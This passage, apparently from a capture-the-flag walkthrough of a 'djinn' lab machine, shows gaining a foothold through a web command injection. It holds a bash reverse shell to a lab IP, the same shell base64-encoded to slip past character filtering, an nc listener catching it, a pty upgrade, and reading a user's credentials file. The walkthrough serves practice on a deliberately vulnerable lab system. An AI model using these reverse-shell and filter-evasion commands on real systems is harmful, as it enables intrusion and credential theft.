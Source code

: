 Next, bash reverse one liner from pentestmonkey’s blog can be used to get
reverse shell. (It took a bit of trial and error to see which characters and
commands were being escaped). The shell needed to be encoded with base64 then
decoded with base64 and piped into bash.

![](media/d0909dff79983f3350a2c30561877c22.png)

Original Reverse Shell:

bash -i \>& /dev/tcp/192.168.211.146/443 0\>&1

Encoded Reverse Shell:

echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMS4xNDYvNDQzIDA+JjEK \| base64 -d
\| bash

### Catching & Upgrading Reverse Shell

lifesfun:\~\# nc -nvlp 443

listening on [any] 443 ...

connect to [192.168.211.146] from (UNKNOWN) [192.168.211.145] 43218

bash: cannot set terminal process group (719): Inappropriate ioctl for device

bash: no job control in this shell

www-data\@djinn:/opt/80\$ python -c "import pty; pty.spawn('/bin/bash')"

python -c "import pty; pty.spawn('/bin/bash')"

www-data\@djinn:/opt/80\$ echo \$HOSTNAME

echo \$HOSTNAME

djinn

### Discovering Possible Credentials

www-data\@djinn:/opt/80\$ ls

ls

app.py app.pyc static templates

www-data\@djinn:/opt/80\$ cat app.py

cat app.py

import subprocess

from flask import Flask, redirect, render_template, request, url_for

app = Flask(__name__)

app.secret_key = "key"

CREDS = "/home/nitish/.dev/creds.txt"

www-data\@djinn:/opt/80\$ cat /home/nitish/.dev/creds.txt
